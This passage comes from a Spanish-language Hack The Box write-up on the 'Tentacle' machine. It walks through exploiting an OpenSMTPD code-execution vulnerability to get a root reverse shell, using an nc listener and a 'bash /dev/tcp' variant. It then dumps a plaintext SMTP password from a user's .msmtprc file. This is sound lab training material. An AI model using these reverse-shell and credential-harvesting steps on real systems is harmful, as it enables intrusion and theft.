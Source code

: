 * [OpenSMTPD Privilege Escalation Code Execution](https://packetstormsecurity.com/files/156137/OpenBSD-OpenSMTPD-Privilege-Escalation-Code-Execution.html).

![310page_CVE_we_cant_use_special_chars](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310page_CVE_we_cant_use_special_chars.png)

Y más abajo nos indica:

> "we cannot use the `|` and `>` characters" 

Ya que transforma esos caracteres en `:`...

Peeeeeeeeeeero, en el mismo artículo, nos da un PoC de como se haría para aún asi bypassear esto, emulémoslo pero para conseguir una Shell:

![310page_CVE_we_can_bypass_invalid_chars](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310page_CVE_we_can_bypass_invalid_chars.png)

Nos ponemos en escucha:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y ejecutamos:

![310bash_proxy_smtp_revSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310bash_proxy_smtp_revSH.png)

![310bash_revSHwithSMTP_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tentacle/310bash_revSHwithSMTP_done.png)

Perfectoooooooooooooooooooooooooooooooooooooooo, estamos dentrooooo. Ufff que locura eh!

**(El tema es que en el servidor no están instalados ni `nc` ni `curl`, por eso no podíamos ejecutarlos antes. El exploit que habíamos encontrado en** github **estaba usando `nc`, no se me paso por la mente cambiarlo para conseguir una Shell con `bash /dev/tcp...`, por eso tampoco funcionada. Pero cambiando esa línea por `bash...` también obtenemos una Shell :P Hubiera sido más directo pero nos sirvió para entender mejor la vulnerabilidad)**

Bueno, ahora a enumerar... (Antes, hacemos tratamiento de la TTY, [s4vitar nos lo explica](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689)).

...

## Explotación [#](#explotacion) {#explotacion}

En el directorio `/home` nos encontramos el usuario `j.nakazawa`, el cual tiene un archivo interesante:

```bash
root@smtp:/home/j.nakazawa$ cat .msmtprc 
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
```
